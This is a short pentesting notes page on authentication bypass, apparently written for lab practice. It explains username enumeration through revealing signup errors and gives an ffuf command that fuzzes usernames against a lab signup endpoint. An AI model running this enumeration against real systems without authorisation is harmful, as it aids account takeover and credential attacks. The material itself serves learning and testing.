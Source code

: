 ```yaml
---
description: Bypass logins and authentication systems
---
```


# Authentication Bypass

## Username Enumeration

On any signup/signin page having a username and password, we can first intercept any signup/signin requests and perform username enumeration, if we get error messages "like username already exists", or, "password for this username is wrong".

#### using ffuf

{% code overflow="wrap" %}
```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.32.200/customers/signup -mr "username already exists"
```
{% endcode %}

